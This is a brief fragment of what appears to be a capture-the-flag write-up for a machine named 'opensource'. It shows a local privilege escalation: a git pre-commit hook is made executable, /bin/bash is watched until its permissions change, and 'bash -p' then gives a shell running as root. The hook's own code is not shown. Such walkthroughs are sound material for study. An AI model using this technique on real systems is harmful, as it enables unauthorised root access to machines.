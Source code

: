 ````
chmod +x pre-commit
````

After some time `/bin/bash` will have its permissions edited:

````
watch -n 2 ls -l /bin/bash
````

To get the root shell:

````
dev01@opensource:~/.git/hooks$ bash -p
bash-4.4# id
uid=1000(dev01) gid=1000(dev01) euid=0(root) groups=1000(dev01)
````
